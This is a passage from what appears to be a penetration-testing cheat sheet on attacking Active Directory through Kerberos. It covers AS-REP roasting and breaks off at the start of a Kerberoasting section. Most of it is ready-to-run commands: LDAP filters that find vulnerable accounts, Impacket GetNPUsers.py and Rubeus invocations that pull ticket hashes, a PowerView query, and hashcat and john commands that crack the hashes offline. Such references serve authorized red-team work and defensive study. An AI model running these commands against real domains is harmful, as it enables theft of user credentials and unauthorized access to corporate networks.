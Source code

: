 ```text
# LDAP filter for non preauth krb users
LDAP: (&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))
```

### Linux \(external\)

With [Impacket](https://github.com/SecureAuthCorp/impacket) example GetNPUsers.py:

```text
# check ASREPRoast for all domain users (credentials required)
python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

# check ASREPRoast for a list of users (no credentials required)
python GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

### Windows \(internal\)

With [Rubeus](https://github.com/GhostPack/Rubeus):

```text
# check ASREPRoast for all users in current domain
.\Rubeus.exe asreproast  /format:<AS_REP_responses_format [hashcat | john]> /outfile:<output_hashes_file>

# Powerview
Get-DomainUser -PreauthNotRequired

# https://github.com/HarmJ0y/ASREPRoast
```

Cracking with dictionary of passwords:

```text
hashcat -m 18200 -a 0 <AS_REP_responses_file> <passwords_file>

john --wordlist=<passwords_file> <AS_REP_responses_file>
```

## Kerberoasting

> Cracking users password from TGS, because TGS requires Service key which is derived from NTLM hash

```text
# LDAP filter for users with linked services
LDAP: (&(samAccountType=805306368)(servicePrincipalName=*))
```

### Linux \(external\)

With [Impacket](https://github.com/SecureAuthCorp/impacket) example GetUserSPNs.py:
